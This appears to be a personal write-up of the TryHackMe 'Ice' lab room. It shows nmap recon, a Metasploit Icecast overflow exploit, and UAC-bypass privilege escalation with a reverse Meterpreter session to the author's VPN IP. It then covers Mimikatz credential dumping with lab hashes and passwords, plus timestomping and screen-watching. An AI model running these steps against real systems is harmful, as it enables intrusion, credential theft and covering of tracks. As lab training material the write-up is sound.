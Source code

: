 # Matheus Jesus 04-04-2020

## Try Hack Me - Ice (https://tryhackme.com/room/ice) - Continuation of Blue

### IP 10.10.180.149

#### 1. Recon - Net Scan

nmap -sV -sC -sS -oN nmap_initial 10.10.180.149

```text
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-04-04T15:24:10+00:00; -1h00m11s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

##### Port 3389 is a Microsoft Remote Desktop

##### Port 8000 running Icecast

### 2. Look for vulnerabilities on Icecast

https://www.cvedetails.com/

search for Icecast
Find list of vulnerabilities of rank **7.5**

Execute Code Overflow - CVE-2004-1561 on Metasploit

#### Mestasploit

search CVE-2004-1561
exploit/windows/http/icecast_header

set RHOSTS
exploit

### 3. Escalate Privilege

#### Meterpreter

sysinfo -> Windows build 7601
ps -> Icecast run by Dark (user)

##### Test Win x64 exploits

run post/multi/recon/local_exploit_suggester

```text
[*] 10.10.180.149 - Collecting local exploits for x86/windows...
[*] 10.10.180.149 - 30 exploit checks are being tried...
[+] 10.10.180.149 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

##### Back on metasploit

use exploit/windows/local/bypassuac_eventvwr
set SESSION 1

run -> it will fail to create a session

show options

SET LHOST 10.9.5.234 (VPN IP Address)

run

##### Back on Meterpreter - Escalated

getprivs -> SeTakeOwnershipPrivilege

### 4. Looting

migrate -N spoolsv.exe

Mimikats password dumping tool
load kiwi

creds_all (retrieve all credentials)

```text
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

### 5. Post-Exploitation

help -> on Meterpreter

hashdump -> get all password hashes
screenshare -> watch screen
timestopm -> change timestamp of files

Access Remote Desktop with Remmina

### Exploiting without Metasploit

https://www.exploit-db.com/exploits/568

DONE!
